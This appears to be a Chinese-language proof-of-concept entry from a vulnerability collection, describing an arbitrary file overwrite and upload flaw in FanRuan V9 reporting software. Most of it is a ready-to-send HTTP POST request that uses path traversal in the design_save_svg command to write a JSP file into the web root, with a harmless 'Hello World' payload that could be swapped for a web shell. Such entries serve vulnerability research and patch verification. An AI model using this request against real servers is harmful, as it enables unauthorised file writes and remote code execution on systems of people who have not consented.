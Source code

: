 # 帆软-V9-任意文件覆盖文件上传

## 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

## 漏洞影响

> [!NOTE]
>
> 帆软 V9 

## 漏洞复现

![](帆软-V9-任意文件覆盖文件上传.assets/1627363503690497.jpg)

```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```

